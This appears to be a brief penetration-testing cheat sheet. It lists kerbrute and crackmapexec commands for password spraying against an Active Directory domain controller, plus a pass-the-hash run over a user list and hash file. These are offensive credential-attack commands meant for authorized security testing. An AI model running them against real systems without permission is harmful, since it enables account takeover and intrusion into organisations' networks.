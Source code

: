PASSWORD
---
```
./kerbrute passwordspray --dc <DC ip> -d <domain name> ~/path/to/users.txt '<YOUR PASSWORD>'
```
#OR

```
crackmapexec smb <DC ip> -u ~/path/to/users.txt -p "<YOUR PASSWORD>"
```

HASH
---

```
crackmapexec smb <DC ip> -u ~/path/to/users.txt -H ~/path/to/hashes.txt --continue-on-success
```
```--continue-on-success```this option allows it to continue testing all remaining users and hashes even if a success is found.
